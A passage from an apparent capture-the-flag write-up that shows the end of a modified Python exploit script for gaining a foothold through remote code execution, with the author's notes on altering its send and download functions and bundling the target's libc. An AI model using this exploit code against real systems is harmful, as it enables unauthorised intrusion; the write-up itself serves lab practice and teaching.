 ```python
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()
```
So basically, i just changed ```send``` and ```download``` functions, i also download the correct libc on the target machine and include it directly (i mean this is the most important changes)

Btw, you can do ```diff --color cnext_exploit.py rce.py``` to see all changes

![alt text](../assets/image_bigbang/foothold.png)
